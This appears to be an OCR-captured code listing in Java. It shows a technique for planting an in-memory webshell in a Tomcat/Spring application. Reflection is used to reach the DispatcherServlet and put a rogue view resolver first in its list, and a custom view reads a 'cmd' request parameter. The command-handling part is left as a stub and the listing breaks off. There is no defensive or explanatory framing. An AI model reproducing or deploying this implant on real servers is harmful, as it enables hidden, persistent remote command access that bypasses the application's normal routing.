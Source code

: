 ```java

        HashMap<String, Container> children = (HashMap<String, Container>) getFieldValue("org.apache.catalina.core.ContainerBase", "children",
                engine);

        StandardHost host = (StandardHost) children.get(engine.getDefaultHost());

        HashMap<String, Container>  children2 = (HashMap<String, Container>) getFieldValue("org.apache.catalina.core" +
                        ".ContainerBase", "children",
                host);

        //TomcatEmbeddedContext
        StandardContext  standardContext = (StandardContext) children2.get("");


        HashMap<String, Container>  children3 =(HashMap<String, Container>) getFieldValue("org.apache.catalina.core" +
                        ".ContainerBase", "children",
                standardContext);
        
        for (String name:children3.keySet()) {
            if ("dispatcherServlet".equals(name)) {
                StandardWrapper wrapper = (StandardWrapper) children3.get(name);

                DispatcherServlet servlet = (DispatcherServlet) wrapper.getServlet();

                List<ViewResolver> viewResolvers = (List<ViewResolver>) getFieldValue("org.springframework.web.servlet.DispatcherServlet",
                        "viewResolvers", servlet);

                viewResolvers.add(0,new MyViewResolver());
            }
        }
    }

```



```java
public class Foo {
    public String foo(HttpServletRequest request, HttpServletResponse response) throws Exception {
        return "foo_view";
    }
}

public class MyView implements SmartView {
    @Override
    public String getContentType() {
        return null;
    }

    @Override
    public void render(Map<String, ?> model, HttpServletRequest request, HttpServletResponse response) throws Exception {

        request.getParameter("cmd");
    }

    @Override
    public boolean isRedirectView() {
        return true;
    }
```